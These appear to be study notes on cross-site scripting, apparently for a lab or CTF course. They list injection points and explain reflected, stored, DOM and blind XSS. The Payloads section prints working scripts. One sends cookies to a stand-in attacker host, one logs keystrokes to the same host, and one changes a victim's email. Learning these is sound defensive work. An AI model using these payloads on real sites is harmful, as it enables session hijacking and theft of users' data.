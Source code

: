 

				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	

-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers


				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS
		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS
				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

-- Business Logic
<script>user.changeEmail('attacker@hacker.thm');</script>

-- polyglots
string of text which can escape attributes, tags and bypass filters all in one.

				Beef Framwork